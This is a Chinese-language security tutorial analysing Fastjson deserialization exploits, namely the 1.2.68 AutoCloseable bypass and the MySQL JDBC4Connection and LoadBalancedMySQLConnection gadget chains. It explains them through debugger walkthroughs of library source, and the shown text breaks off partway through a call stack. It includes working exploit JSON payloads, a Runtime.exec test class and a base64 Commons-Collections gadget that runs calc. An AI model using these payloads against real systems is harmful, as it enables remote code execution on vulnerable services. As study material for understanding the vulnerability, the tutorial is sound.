










# 手把手带你深入分析 Fastjson JDBC 调用链利用过程-先知社区

> **来源**: https://xz.aliyun.com/news/18109  
> **文章ID**: 18109

---

# 手把手带你深入分析 Fastjson JDBC 调用链利用过程

看了网上很多，都只是简单给了这个 paylaod，几乎没有分析，对新手很不友好，在这里给出分析，如果有误，还请指正

## fastjson1.2.68 绕过

这个虽然已经介绍了很多了，这里方便初学者学习，简单说一下

### 前提条件

Fastjson <= 1.2.68；  
利用类必须是 expectClass 类的子类或实现类，并且不在黑名单中；  
漏洞复现

### poc

简单地验证利用 expectClass 绕过的可行性，先假设 Fastjson 服务端存在如下实现 AutoCloseable 接口类的恶意类 VulAutoCloseable：  
这里是为了测试才加这个类的，实战中是需要其他的恶意类，这里是为了更好的去分析整个流程

```
package org.example;
 
public class VulAutoCloseable implements AutoCloseable {
    public VulAutoCloseable(String cmd) {
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
 
    @Override
    public void close() throws Exception {
 
    }
}
```

exp

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class fastjson68 {
    public static void main(String[] args) {
        String exp="{"@type":"java.lang.AutoCloseable","@type":"org.example.VulAutoCloseable","cmd":"calc"}";
        JSON.parse(exp);
    }
}

```

### 调试分析

这里我还是从 CheckAutoType()函数开始分析  
当我们的 type 为 AutoCloseable 的时候  
会来到

```
clazz = TypeUtils.getClassFromMapping(typeName);
```

去加载，因为我们的 map 中有我们的这个类  
  
所以我们的 clazz 就已经赋了值，会 return clazz  
然后就是获取反序列化器去反序列化它的过程

是使用最后的javabeandeserialize方法获取的，然后进入到它的deserialze方法

  
可以看到传入的参数信息  
然后就是一系列解析我们的 parser 的过程，然后我们这里直接走到关键的方法

```
userType = config.checkAutoType(typeName, expectClass, lexer.getFeatures());
```

这时候的参数是什么呢？  
我们去反过来看看

```
String typeName = lexer.stringVal();
```

最后获取到的就是我们第二个 type

```
Class<?> expectClass = TypeUtils.getClass(type);
```

就是我们的这个第一个 type

再次进入我们的 checkAutoType 方法  
这次又会在哪里加载呢？

```
if (autoTypeSupport || jsonType || expectClassFlag) {
            boolean cacheClass = autoTypeSupport || jsonType;
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
        }
```

直接来到这里，因为 expectClassFlag 为 ture，我们可以返回看看原因

```
if (expectClass == null) {
            expectClassFlag = false;
        } else {
            if (expectClass == Object.class
                    || expectClass == Serializable.class
                    || expectClass == Cloneable.class
                    || expectClass == Closeable.class
                    || expectClass == EventListener.class
                    || expectClass == Iterable.class
                    || expectClass == Collection.class
                    ) {
                expectClassFlag = false;
            } else {
                expectClassFlag = true;
            }
        }

```

因为我们的 `expectClass == Closeable.class` 是成立的，所以赋值为 ture，然后

```
clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
```

就可以去加载它了，但是我们的cacheClass还是flase，是因为 `boolean cacheClass = autoTypeSupport || jsonType;` 都为 false

进入我们的 loadclass 方法，因为我们的 cache 为 false，所以是没有机会放入我们的 map 里面的，只能 return 了，继续往下面看

```
if (jsonType) {
                TypeUtils.addMapping(typeName, clazz);
                return clazz;
            }

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || javax.sql.DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    || javax.sql.RowSet.class.isAssignableFrom(clazz) //
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    TypeUtils.addMapping(typeName, clazz);
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }
```

如果我们的 jsonType 为 ture 就可以加入我们的 map，但是为 fasle

然后判断返回的类是否是 ClassLoader、DataSource、RowSet 等类的子类，是的话直接抛出异常，这也是过滤大多数 JNDI 注入 Gadget 的机制

然后就是，则判断目标类是否是 expectClass 类的子类，是的话就添加到 Mapping 缓存中并直接返回该目标类，否则直接抛出异常导致利用失败，这里就解释了为什么恶意类必须要继承 AutoCloseable 接口类，因为这里 expectClass 为 AutoCloseable 类、因此恶意类必须是 AutoCloseable 类的子类才能通过这里的判断

checkAutoType()调用完返回类之后，就进行反序列化操作、新建恶意类实例进而调用其构造函数从而成功触发漏洞：  


## JDBC4Connection

```
Mysql connector 5.1.11-5.1.48
```

### 测试代码

```
import com.alibaba.fastjson.JSON;

public class jdbc {
    public static void main(String[] args) {
        String exp="{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "localhost", "portToConnectTo": 53329, "info": { "user": "deser_CC31_calc", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}";
        JSON.parse(exp);
    }
}
```

环境为

```
<dependency>
    <groupId>com.alibaba</groupId>

    <artifactId>fastjson</artifactId>

    <version>1.2.55</version>

</dependency>

```

只要<1.2.68 都可以的

```
<dependency>
    <groupId>mysql</groupId>

    <artifactId>mysql-connector-java</artifactId>

    <version>5.1.30</version>

</dependency>

```

### 简单复现

首先起一个恶意的 mysql 服务器，放上我们的 cc 的链子就 ok

这里把数据给出来，方便测试

```
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcQB+AABzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAAVzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AHgAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+AB5zcQB+ABZ1cQB+ABsAAAACcHVxAH4AGwAAAAB0AAZpbnZva2V1cQB+AB4AAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAbc3EAfgAWdXEAfgAbAAAAAXQABGNhbGN0AARleGVjdXEAfgAeAAAAAXEAfgAjc3EAfgARc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4dnIAEmphdmEubGFuZy5PdmVycmlkZQAAAAAAAAAAAAAAeHBxAH4AOQ==
```

然后运行

```
import com.alibaba.fastjson.JSON;

public class jdbc {
    public static void main(String[] args) {
        String exp="{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "localhost", "portToConnectTo": 53329, "info": { "user": "deser_CC31_calc", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}";
        JSON.parse(exp);
    }
}
```

就可以弹出计算器

### 调试分析

首先是为什么能够使用 JDBC4Connection，根据上面的绕过分析，只需要我们的类继承 AutoCloseable 就可以使用

[bmth师傅的图](http://www.bmth666.cn/)



简单看一下调用栈

```
<init>:46, JDBC4Connection (com.mysql.jdbc)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
deserialze:966, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:386, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:555, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1380, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1346, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:156, JSON (com.alibaba.fastjson)
parse:166, JSON (com.alibaba.fastjson)
parse:135, JSON (com.alibaba.fastjson)
main:6, jdbc
```

就是获取到 javabean 的反序列化器，去反序列化我们的 json 数据

然后获取所有的 field 会调用对应的 setter 方法去赋值，然后实例化我们的 bean 对象

```
try {
    if (hasNull && this.beanInfo.kotlinDefaultConstructor != null) {
        object = this.beanInfo.kotlinDefaultConstructor.newInstance();

        for(i = 0; i < params.length; ++i) {
            param = params[i];
            if (param != null && this.beanInfo.fields != null && i < this.beanInfo.fields.length) {
                fieldInfo = this.beanInfo.fields[i];
                fieldInfo.set(object, param);
            }
        }
    } else {
        object = this.beanInfo.creatorConstructor.newInstance(params);
    }
}
```

来到构造方法

```
public JDBC4Connection(String hostToConnectTo, int portToConnectTo, Properties info, String databaseToConnectTo, String url) throws SQLException {
    super(hostToConnectTo, portToConnectTo, info, databaseToConnectTo, url);
    // TODO Auto-generated constructor stub
}
```

可以看到属性的值已经是赋值完成了



会进入父类 ConnectionImpl 的构造方法

会开始赋值，然后进行一波检测

```
this.port = portToConnectTo;

this.database = databaseToConnectTo;
this.myURL = url;
this.user = info.getProperty(NonRegisteringDriver.USER_PROPERTY_KEY);
this.password = info
       .getProperty(NonRegisteringDriver.PASSWORD_PROPERTY_KEY);

if ((this.user == null) || this.user.equals("")) {
    this.user = "";
}

if (this.password == null) {
    this.password = "";
}
```

再往下走会来到

```
try {
    this.dbmd = getMetaData(false, false);
    initializeSafeStatementInterceptors();
    createNewIO(false);
    unSafeStatementInterceptors();
}
```

进入 createNewIO 方法

```
public void createNewIO(boolean isForReconnect)
       throws SQLException {
    synchronized (getConnectionMutex()) {
       // Synchronization Not needed for *new* connections, but defintely for
       // connections going through fail-over, since we might get the
       // new connection up and running *enough* to start sending
       // cached or still-open server-side prepared statements over
       // to the backend before we get a chance to re-prepare them...
       

       Properties mergedProps  = exposeAsProperties(this.props);

       if (!getHighAvailability()) {
          connectOneTryOnly(isForReconnect, mergedProps);
          
          return;
       } 

       connectWithRetries(isForReconnect, mergedProps);
    }     
}
```

然后就是一个这样的调用链

重点代码如下

```
private void connectOneTryOnly(boolean isForReconnect,
       Properties mergedProps) throws SQLException {
    Exception connectionNotEstablishedBecause = null;

    try {
       
       coreConnect(mergedProps);
       this.connectionId = this.io.getThreadId();
       this.isClosed = false;

       // save state from old connection
       boolean oldAutoCommit = getAutoCommit();
       int oldIsolationLevel = this.isolationLevel;
       boolean oldReadOnly = isReadOnly(false);
       String oldCatalog = getCatalog();

       this.io.setStatementInterceptors(this.statementInterceptors);
       
       // Server properties might be different
       // from previous connection, so initialize
       // again...
       initializePropsFromServer();
```

进入 initializePropsFromServer->handleAutoCommitDefaults()->setAutoCommit()

初始化服务器的操作，设置自动自动提交  
在setAutoCommit有执行sql语句的操作 `this.session.execSQL((Query)null, autoCommitFlag ? "SET autocommit=1" : "SET autocommit=0", -1, (NativePacketPayload)null, false, this.nullStatementResultSetFactory, this.database, (ColumnDefinition)null, false);`  
内部使用NativeProtocol对象的sendQueryString 方法来发送查询  `((NativeProtocol)this.protocol).sendQueryString`

会 return this.sendQueryPacket，继续看到这个方法

```
if (this.queryInterceptors != null) {
                T interceptedResults = this.invokeQueryInterceptorsPre(query, callingQuery, false);
                if (interceptedResults != null) {
                    Resultset var41 = interceptedResults;
                    return var41;
                }
            }
```

检查我们的 queryInterceptors 拦截器属性值是否为 null 不为 null，就会调用 invokeQueryInterceptorsPre 方法  
随后触发该拦截器的preProcess 方法 `T interceptedResultSet = interceptor.preProcess`  
然后会触发到 populateMapWithSessionStatusValues 方法

```
private void populateMapWithSessionStatusValues(Connection connection,
            Map<String, String> toPopulate) throws SQLException {
        java.sql.Statement stmt = null;
        java.sql.ResultSet rs = null;

        try {
            toPopulate.clear();

            stmt = connection.createStatement();
            rs = stmt.executeQuery("SHOW SESSION STATUS");
            Util.resultSetToMap(toPopulate, rs);
        } finally {
            if (rs != null) {
                rs.close();
            }

            if (stmt != null) {
                stmt.close();
            }
        }
    }
```

执行一次 SHOW SESSION STATUS 查询，并将结果返回给 ResultSetUtil.*resultSetToMap*

```
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }
```

会调用 rs 的 getObject 方法

重点漏洞就在

```
public Object getObject(int columnIndex) throws SQLException {
    checkRowPos();
    checkColumnBounds(columnIndex);

    int columnIndexMinusOne = columnIndex - 1;

    if (this.thisRow.isNull(columnIndexMinusOne)) {
        this.wasNullFlag = true;

        return null;
    }

    this.wasNullFlag = false;

    Field field;
    field = this.fields[columnIndexMinusOne];

    switch (field.getSQLType()) {
        case Types.BIT:
        case Types.BOOLEAN:
            if (field.getMysqlType() == MysqlDefs.FIELD_TYPE_BIT && !field.isSingleBit()) {
                return getBytes(columnIndex);
            }

            // valueOf would be nicer here, but it isn't present in JDK-1.3.1, which is what the CTS uses.
            return Boolean.valueOf(getBoolean(columnIndex));
            .......
        case Types.LONGVARCHAR:
            if (!field.isOpaqueBinary()) {
                return getStringForClob(columnIndex);
            }

            return getBytes(columnIndex);

        case Types.BINARY:
        case Types.VARBINARY:
            //判断数据是否为二进制数据，若为则进入case
        case Types.LONGVARBINARY:
            //判断是否为GEOMETRY类型数据
            if (field.getMysqlType() == MysqlDefs.FIELD_TYPE_GEOMETRY) {
                return getBytes(columnIndex);
                //判断数据是否为blob或者二进制数据
            } else if (field.isBinary() || field.isBlob()) {
                byte[] data = getBytes(columnIndex);

                if (this.connection.getAutoDeserialize()) {
                    Object obj = data;
                    //data不为空且大于2
                    if ((data != null) && (data.length >= 2)) {
                        //判断是否为java反序列化数据  -84 -19为java对象序列化数据魔术头
                        if ((data[0] == -84) && (data[1] == -19)) {
                            // Serialized object
                            //进行反序列化调用readObject()
                            try {
                                ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
                                ObjectInputStream objIn = new ObjectInputStream(bytesIn);
                                obj = objIn.readObject();
                                objIn.close();
                                bytesIn.close();
                            } catch (ClassNotFoundException cnfe) {
                                throw SQLError.createSQLException(
                                        Messages.getString("ResultSet.Class_not_found___91") + cnfe.toString()
                                                + Messages.getString("ResultSet._while_reading_serialized_object_92"), getExceptionInterceptor());
                            } catch (IOException ex) {
                                obj = data; // not serialized?
                            }
                        } else {
                            return getString(columnIndex);
                        }
                    }

                    return obj;
                }

                return data;
            }

            return getBytes(columnIndex);

        case Types.DATE:
            ......
    }
}
```

触发了我们的漏洞

## LoadBalancedMySQLConnection

```
Mysql connector 6.0.2 or 6.0.3
```

### 测试代码

```
import com.alibaba.fastjson.JSON;

public class jdbc {
    public static void main(String[] args) {
        String exp="{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "localhost", "portToConnectTo": 62037, "info": { "user": "deser_CUSTOM", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}";
        String aa="{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection","proxy": {"connectionString":{"url":"jdbc:mysql://localhost:62037/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM"}}}";
        JSON.parse(aa);
    }
}
```

然后 payload 还是上面的那个部分



### 简单复现

运行代码即可

```
import com.alibaba.fastjson.JSON;

public class jdbc {
    public static void main(String[] args) {
        String exp="{"name": {"@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "localhost", "portToConnectTo": 62037, "info": { "user": "deser_CUSTOM", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" }}";
        String aa="{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection","proxy": {"connectionString":{"url":"jdbc:mysql://localhost:62037/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=deser_CUSTOM&useSSL=false"}}}";
        JSON.parse(aa);
    }
}
```



### 调试分析

首先还是不出意外的会来到

```

deserialze:966, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer) [3]
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:85, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:794, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer) [2]
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer) [1]
deserialze:273, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:269, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
